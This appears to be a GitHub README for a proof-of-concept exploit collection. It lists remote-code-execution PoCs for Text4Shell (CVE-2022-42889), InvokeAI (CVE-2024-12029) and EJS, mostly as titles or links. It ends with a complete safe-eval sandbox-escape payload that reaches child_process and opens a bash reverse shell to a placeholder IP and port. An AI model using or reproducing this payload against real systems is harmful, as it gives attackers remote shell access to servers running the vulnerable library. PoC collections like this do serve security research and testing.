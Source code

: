 # PoCs

## CVE 2022-42889
Text4Shell RCE Python3 version

## CVE 2024-12029
Unauth RCE in InvokeAI. The vulnerability was discovered by @jackfromeast. Here is a Python3 version

## Node JS
### EJS v3.1.9 (valid from EJS v2.6.2 to v3.1.9)
[Chain of Unrestricted Render Options](https://github.com/apostolovd/PoCs/blob/main/EJS/Chain%20of%20Unrestricted%20Render%20Options.pdf)

### safe-eval bypass
It works with valuesOf(), toLocaleString(), propertyIsEnumerable.call()
> (function() {try{valueOf()} catch(rce){rce.constructor.constructor('return process')().mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'`); }})()
